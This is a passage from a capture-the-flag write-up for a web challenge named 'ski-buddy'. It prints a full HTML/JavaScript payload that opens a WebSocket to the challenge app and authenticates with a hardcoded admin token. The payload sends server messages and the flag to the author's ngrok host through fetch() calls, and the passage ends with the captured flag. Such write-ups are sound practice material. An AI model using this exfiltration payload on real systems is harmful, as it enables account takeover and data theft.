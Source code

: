 I then came up with the following payload (I named it `file.html`), and served it through ngrok TCP (forwarding `python -m http.server 8000`):

```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
<script>
(async () => {
    const ws = new WebSocket("ws://ski-buddy-app:8000/ws");
    ws.onopen = (event) => {
      fetch("http://0.tcp.ap.ngrok.io:11060/" + JSON.stringify(event));
      let adminToken = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzU1NDA0NjA2LCJleHAiOjE3NTU0MDgyMDZ9.xoLVoCaX96xbNOTisECNWlKKe7ZewnI9C-NjGA0ExP0";

      // Send auth message
      ws.send(JSON.stringify({ type: "auth", token: adminToken }));
    };

    ws.onmessage = async (event) => {
      await fetch(`http://0.tcp.ap.ngrok.io:11060/MSG_FROM_SERVER______${event.data}`);
      let msg = JSON.parse(event.data);

      if (msg.type === "auth_success") {
        if (msg.username === "admin") {
          // Now the server should send the flag
          await fetch("http://0.tcp.ap.ngrok.io:11060/auth_successful_admin");
        }
      }

      if (msg.type === "flag") {
        // Exfiltrate to your own server
        await fetch("http://0.tcp.ap.ngrok.io:11060/" + encodeURIComponent(msg.message));
      }
    };
})();
</script>
</body>
</html>
```

I then submitted the URL `http://0.tcp.ap.ngrok.io:11060/file.html` in the web application, and was able to obtain the flag from the HTTP logs:

![[../images/ski-buddy-flag.png]]

> [!success] Flag
> `grey{skibidi_toilet_2ea989edfabfe44f526d7edd0dd8df27}`

# Rev
